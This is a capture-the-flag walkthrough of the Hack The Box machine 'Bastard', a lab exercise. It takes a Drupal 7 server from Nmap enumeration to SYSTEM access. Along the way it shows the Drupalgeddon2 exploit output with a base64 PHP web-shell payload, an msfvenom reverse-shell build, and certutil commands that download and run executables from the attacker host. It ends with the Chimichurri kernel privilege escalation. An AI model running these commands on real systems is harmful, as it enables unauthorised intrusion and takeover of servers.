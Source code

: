 # HTB - Bastard

#### Ip: 10.10.10.9
#### Name: Bastard
#### Difficulty: Medium

----------------------------------------------------------------------

![Bastard.png](../assets/bastard_assets/Bastard.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.9 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 09:04 CDT
Nmap scan report for 10.10.10.9
Host is up (0.067s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.86 seconds

```

Navigating to the webpage we can see the site is running Drupal.

![site.png](../assets/bastard_assets/site.png)

And if we take a look at the page source we can see it is running Drupal 7 specifically (Note: Nmap picked this up for us as well):

![7.png](../assets/bastard_assets/7.png)

Based on prior experience, I know that Drupal 7 is has several vulnerabilites. Lets try using drupalgeddon2 to exploit this. The exploit can be found at: https://github.com/dreadlocked/Drupalgeddon2

### Exploitation:

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ ruby drupalgeddon2.rb http://10.10.10.9     
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo VFEMFJVK
[+] Result : VFEMFJVK
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> hostname
Bastard
```

Nice! The exploit worked after trying out a few different payloads. 

Lets use msfvenom to create a reverse shell executable so we can spawn a proper reverse shell:

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.26 LPORT=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Then with both a python HTTP server and a netcat listener going we can fetch and execute the shell:

```text
drupalgeddon2>> certutil -urlcache -split -f "http://10.10.14.26/shell.exe"
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
drupalgeddon2>> .\shell.exe
```

And we catch a shell back:

![shell.png](../assets/bastard_assets/shell.png)

We can now grab the user.txt flag:

![user_flag.png](../assets/bastard_assets/user_flag.png)

### Privilege Escalation

Because this is such an old machine I'm curious about the kernel version:

```text
C:\inetpub\drupal-7.54>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          1/9/2023, 5:03:02 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                           [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.514 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.514 MB
Virtual Memory: In Use:    581 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

Nice, doesn't look like there's been any patching. Lets try using Chimichurri.exe https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

We can download it from our attacking machine and execute it using:

```text
C:\Temp>certutil -urlcache -split -f "http://10.10.14.26/Chimichurri.exe"
certutil -urlcache -split -f "http://10.10.14.26/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.

C:\Temp>.\Chimichurri.exe 10.10.14.26 444
```

And with a listener going on port 444 we catch a shell back as nt authority\system and grab the final flag:

![root_flag.png](../assets/bastard_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------
